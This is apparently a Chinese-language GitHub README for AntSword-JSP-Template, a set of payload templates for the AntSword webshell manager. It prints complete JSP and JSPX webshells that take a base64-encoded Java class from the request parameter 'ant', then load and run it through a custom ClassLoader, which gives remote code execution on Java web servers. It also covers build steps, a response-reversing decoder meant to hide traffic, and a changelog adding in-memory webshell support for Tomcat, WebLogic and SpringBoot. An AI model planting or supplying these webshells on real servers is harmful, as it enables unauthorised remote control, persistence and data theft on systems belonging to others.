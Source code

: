 # AntSword-JSP-Template  v1.4
中国蚁剑JSP一句话Payload

详细介绍：https://yzddmr6.tk/posts/antsword-diy-3/

编译环境：jdk6 + tomcat7

适用范围：jdk6及以上

## 编译

### 手动编译

* Windows

```
javac.exe -cp "./lib/servlet-api.jar;./lib/jsp-api.jar" Test.java

base64 -w 0 Test.class > Test.txt
```

* Linux/Mac

```bash
javac -cp "./lib/servlet-api.jar:./lib/jsp-api.jar" Test.java

# Linux
base64 -w 0 Test.class > Test.txt

# Mac
base64 -b 0 Test.class > Test.txt
```

### 自动编译

在build.py中替换你的javac路径后运行，即可在`./dist`目录下自动生成代码模板。

```
python build.py
```

编译完成后将`./dist/`目录下所有文件拷贝至`antSword-master/source/core/jsp/template/`下即可

## Shell
shell.jsp

```
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("ant");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

shell.jspx
```
<jsp:root xmlns:jsp="http://java.sun.com/JSP/Page" version="1.2">
    <jsp:declaration>
        class U extends ClassLoader {
            U(ClassLoader c) {
                super(c);
            }
            public Class g(byte[] b) {
                return super.defineClass(b, 0, b.length);
            }
        }
        public byte[] base64Decode(String str) throws Exception {
            try {
                Class clazz = Class.forName("sun.misc.BASE64Decoder");
                return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
            } catch (Exception e) {
                Class clazz = Class.forName("java.util.Base64");
                Object decoder = clazz.getMethod("getDecoder").invoke(null);
                return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
            }
        }
    </jsp:declaration>
    <jsp:scriptlet>
        String cls = request.getParameter("ant");
        if (cls != null) {
            new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
        }
    </jsp:scriptlet>
</jsp:root>
```
其中`pageContext`可以替换为`request`，以实现对内存Webshell的兼容。

## 解码器

以 Reverse 解码器为例说明：

> 该解码器的功能是将返回包的数据反转

1. 编写 `AsoutputReverse.java` 内容如下:

```java
public class AsoutputReverse {
  String res;

  public AsoutputReverse(String str) {
    // 这里编写对 str 处理的逻辑, 最后将值传给 res
    res = new StringBuffer(str).reverse().toString();
  }

  // 请保持 toString 方法, 不要修改内容
  @Override
  public String toString() {
    return res;
  }
}
```

2. 编译，并获取 .class 文件 base64 后的内容

```
$ javac AsoutputReverse.java
$ base64 AsoutputReverse.class
```

3. 打开 AntSword 进入编码设置，创建「解码器」，内容如下:

```
/**
 * JSP::reverse 解码器
 */

 'use strict';

 module.exports = {
   asoutput: () => {
     // 这里是你的 .class 文件的 base64 后的内容
     return `yv66vgAAADMAHgoACAATBwAUCgACABUKAAIAFgoAAgAXCQAHABgHA...`;
   },
   decode_buff: (data) => {
     // 这里是解返回包的逻辑
     return Buffer.from(data).reverse();
   }
 }
```


## 更新日志

### v 1.5-dev

1. 支持解码器(反回包加密)

### v 1.4

1. 兼容JDK6
2. 兼容weblogic内存webshell
3. 优化报错信息
4. 解决windows下中文乱码的问题（win选择GBK编码，linux选择UTF-8编码）
5. 实战中只能获取到response的情况几乎没有，所以为了减少payload体积不再支持response作为入口参数
6. 增加用于测试payload的Web项目
7. 修复 java -jar xxx.war 启动时当前目录获取失败的问题


### v 1.3

1. 兼容SpringBoot

### v 1.2

1. 修复下载文件的BUG
2. database添加Base64编码

### v 1.1

1. 增加对Tomcat内存Webshell的兼容
2. 兼容高版本JDK（JDK7-14）

### v 1.0

1. release
